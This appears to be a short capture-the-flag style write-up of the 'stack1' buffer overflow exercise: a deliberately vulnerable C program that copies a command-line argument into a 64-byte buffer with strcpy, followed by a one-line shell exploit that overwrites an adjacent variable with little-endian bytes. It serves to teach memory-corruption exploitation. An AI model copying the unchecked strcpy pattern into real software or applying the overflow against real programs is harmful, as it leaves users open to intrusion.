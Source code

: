 Stack 1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

<p> 
This task the same as stack0 except that our variable should consist specified address. <br>
So we need to overflow buffer and next bytes(our variable) should be 61626364 <br>
By the was it is little endian, so address should be like this 64636261
</p>

```shell
./stack1 $(python -c "print('A' * 64 + '64636261'.decode('hex'))")
```
